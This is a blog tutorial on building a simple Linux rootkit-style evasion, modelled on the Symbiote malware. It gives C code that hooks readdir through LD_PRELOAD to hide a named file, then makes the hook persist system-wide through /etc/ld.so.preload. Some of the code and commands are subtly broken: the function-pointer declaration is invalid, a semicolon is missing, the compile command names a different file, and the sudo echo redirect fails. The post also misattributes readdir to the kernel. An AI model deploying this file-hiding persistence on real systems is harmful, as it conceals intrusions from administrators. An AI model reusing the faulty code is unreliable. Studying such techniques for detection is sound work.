 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)"
date: "2022-10-02"
tags:
  - C
  - Dynamic Linker
  - LD_PRELOAD
toc: true
math: true
bold: true
nomenu: false
---
```



## Overview

Recently I heard about a new malware called [Symbiote](https://blogs.blackberry.com/en/2022/06/symbiote-a-new-nearly-impossible-to-detect-linux-threat), which the researches are calling the "Nearly-Impossible-to-Detect Linux Threat". I was very intrigued by how that malware is being implemented and how it works internally to remain undetected, so naturally I've started to research it. 


I highly advise you to read through these articles first before we begin with the actual post:

 - [Hijack Execution Flow: Dynamic Linker Hijacking](https://attack.mitre.org/techniques/T1574/006/)
 - [What Is the LD_PRELOAD?](https://www.baeldung.com/linux/ld_preload-trick-what-is)
 - [What is a Shared Library?](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

## Implementation 

I decided to implement a very simple alternative of the evasive techniques that this malware uses just as a proof of concept and if you already read the articles that I've linked, it is apparent that we have to implement a shared library, that will override some symbols defined in the Linux Kernel.

What do we need first and how to hide a file from lets say a command like `ls`? With a little bit of investigating of how the `ls` works internally through the [source code](https://github.com/coreutils/coreutils/blob/master/src/ls.c) and the [linux manual page](https://man7.org/linux/man-pages/man1/ls.1.html)
We can see that internally we have a function that is called `print_dir`. I've truncated the comments of the original source code.

 ```c
 ...
static void
print_dir (char const *name, char const *realname, bool command_line_arg)
...
 ```


If we continue further down the function we can see the loop that actually iterates over the files

 ```c
...
  while (true)
    {
      errno = 0;
      next = readdir (dirp); // Here we can see that the loop iterates over readdir as long
      // as the pointer that readdir returns isn't null and the errno != 0
      if (next)
        {
          if (! file_ignored (next->d_name)) // we can see here that it the filename is
          // taken from the next variable, lets look through the source code of `readdir`
            {
      ...
```
Let's confirm that by invoking `nm` this will show us the dynamic symbols that are being loaded from shared libs.

```console
$ nm -D /usr/bin/ls | grep "readdir"
                 U readdir@GLIBC_2.2.5
```

Now I concluded that I need to search into the source code of `readdir` which is located [here](https://github.com/torvalds/linux/blob/master/fs/readdir.c) and the [linux manual page](https://man7.org/linux/man-pages/man3/readdir.3.html). The description more or less describes exactly what we concluded from the source code of `ls.c`. Lets see where we set that `d_name` variable.

```c
#include <dirent.h>

struct dirent *readdir(DIR *dirp); // Signature of the readdir
```

```c
struct dirent {
    ino_t          d_ino;       /* Inode number */
    off_t          d_off;       /* Not an offset; see below */
    unsigned short d_reclen;    /* Length of this record */
    unsigned char  d_type;      /* Type of file; not supported
                                    by all filesystem types */
    char           d_name[256]; /* Null-terminated filename */
};
```

> ⚠️ This reverse engineering/looking up the code might be a little bit tricky because of the different implementations of the `dirent` structure, if you look through some other source codes you may look at some slightly different structures. In this case the number of chars in the array is 256 but that might change to some other values. And you can always count that `d_name` will exists since this field must be implemented on all POSIX systems.

Alright, let's start implementing our own function `readdir` that we will wrap the original one with. 

[intercept_readdir.c](https://github.com/syrull/evasive_techniques/blob/main/Part_1_readdir/intercept_readdir.c)
```c
#define _GNU_SOURCE
#include <dirent.h> // Including the Directory Entry structure
// The dynamic linking header file so we can use the dlsym
// which will give us the address for the readdir symbol
#include <dlfcn.h>
#include <string.h> // So we can use the strstr

struct dirent *readdir(DIR *dirp) {
    struct *(handle)(DIR *);
    // https://man7.org/linux/man-pages/man3/dlsym.3.html
    // Search for RTLD_NEXT, basically it allow us to wrap
    // the original function
    handle = dlsym(RTLD_NEXT, "readdir")
    struct dirent *dp;

    // Iterating over the return values of our original `readdir`
    while((dp = handle(dirp))) {
        // if our `needle`(our file `syl.lys`) is found in the `haystack`(`dp->d_name`)
        // break the loop and go to the next entry, essentially skipping our file.
        if(strstr(dp->d_name, "syl.lys") == 0)
            break;
    }
    return dp;
}
```

This is what our final version of wrapper for `readdir` would look like. Now let's try to compile it.

```console
$ gcc libhidemyfile.c -fPIC -shared -o libhidemyfile.so -ldl
```

Flags: 
- [fPIC](https://stackoverflow.com/questions/5311515/gcc-fpic-option)
- `-shared` creates a shared object
- [-D_GNU_SOURCE flag / _GNU_SOURCE](https://stackoverflow.com/questions/8836707/explanation-of-d-gnu-source-why-to-use-it-and-when) - TLDR: We need it for `RTLD_NEXT`
- [-ldl](https://ubuntuforums.org/archive/index.php/t-1054717.html)


Now that we have shared object (*.so) file lets see how to use it in action.

## How to overwrite the exported symbols? `LD_PRELOAD`

- [What is LD_PRELOAD?](https://man7.org/linux/man-pages/man8/ld.so.8.html)

I advise you to read that first to get a better understanding of how it works.

The next thing that we are going to do is to test our shared library and see if it works. Lets run `ls` with our `libhidemyfile.so` loaded before anything else.

```console
$ ls
libhidemyfile.so  syl.lys
$ LD_PRELOAD=./libhidemyfile.so ls
libhidemyfile.so
```

As you can see we successfully implement a shared library that hides our file from `ls`, and not only that command, every command that uses `readdir` won't be able to list our file as long as we load our shared library. So in that case we must think of a persistent way of how to load it without typing `LD_PRELOAD` in front of every command.

#### /etc/ld.so.preload

If you read carefully the man pages for `LD_PRELOAD` you should know that you won't be able to override functions in the standard search directories without properly setting your set-user-ID permissions. 

Instead we are going to use the `/etc/ld.so.preload` which does not suffer from these restrictions. This suffers from requiring root privileges but c'mon.. if you are here you will get those!

We first need to move our shared library file in some root directory, preferably /lib/ since..it is a library.

```console
$ sudo mv ./libhidemyfile.so /lib/libhidemyfile.so
```

Then we just need to place our library dir in `ld.so.preload` file.

```console
$ sudo echo "/lib/libhidemyfile.so" > /etc/ld.so.preload
```

And if everything is good, executing `ls` or any of its aliases will hide our file from the output. Let's verify this by using `ldd`

```console
$ ldd /bin/ls
        linux-vdso.so.1 (0x00007ffc0c8e2000)
        /lib/libhidemyfile.so (0x00007f00e59e4000) <--- Here it is!
        libselinux.so.1 => /lib64/libselinux.so.1 (0x00007f00e5997000)
        libcap.so.2 => /lib64/libcap.so.2 (0x00007f00e598d000)
        libc.so.6 => /lib64/libc.so.6 (0x00007f00e5600000)
        libpcre2-8.so.0 => /lib64/libpcre2-8.so.0 (0x00007f00e58f0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f00e5a0f000)
```

For your convenience I've setup a Docker container that you can use with `ld.so.preload` setup

```console
$ docker run -it --rm sylly/ctf_findme
```

## End

If you reached here, thank you so much for the read. In the next part I will try to "completely" hide it from the system because now if we `cat` it despite not "reading" it in the directory would print us the contents of the file, but that will be the subject of the next post.

[Full Source Code](https://github.com/syrull/evasive_techniques/blob/main/Part_1_readdir/)

## Resources

This post wouldn't be possible without:

- https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
- https://www.exploit-db.com/docs/english/31687-dynamic-link-library-hijacking.pdf
- https://attack.mitre.org/techniques/T1574/006/
- https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/
- https://www.cadosecurity.com/linux-attack-techniques-dynamic-linker-hijacking-with-ld-preload/
- https://blog.jessfraz.com/post/ld_preload/